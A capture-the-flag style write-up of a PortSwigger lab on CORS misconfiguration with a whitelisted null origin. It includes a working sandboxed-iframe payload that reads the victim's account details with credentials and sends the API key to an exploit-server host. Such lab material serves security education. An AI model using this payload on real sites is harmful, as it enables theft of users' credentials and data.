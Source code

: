 [Try it yourself before continuing](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)

![](./Images/Pasted%20image%2020241208104531.png)

---

![](./Images/Pasted%20image%2020241208111031.png)

Let's send `Origin: http://dipeua-website.com` to see the behavior of the application

![](./Images/Pasted%20image%2020241208111143.png)
We can see that a submitted Origin is not reflected. so let try null origin value

![](./Images/Pasted%20image%2020241208111207.png)
Success the  Origin is reflected.

> In this situation, an attacker can generate a cross-origin request containing the null value in the Origin header. This will satisfy the whitelist, leading to cross-domain access.

Since our response contains sensitive information such as an API key we can retrieve it with the following script:

```js
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','https://0a330068040247de99d6be4f00ef0043.web-security-academy.net/accountDetails',true);
	req.withCredentials = true;
	req.send();

	function reqListener() {
		location='https://exploit-0ae2006c04f747739982bd10012600c0.exploit-server.net/log?key='+this.responseText;
	};
</script>">
</iframe>
```

![](./Images/Pasted%20image%2020241208111835.png)

And send to the victim `Deliver exploit to victim`

![](./Images/Pasted%20image%2020241208111736.png)
![](./Images/Pasted%20image%2020241208111806.png)

Then submit **api key** to validate the challenge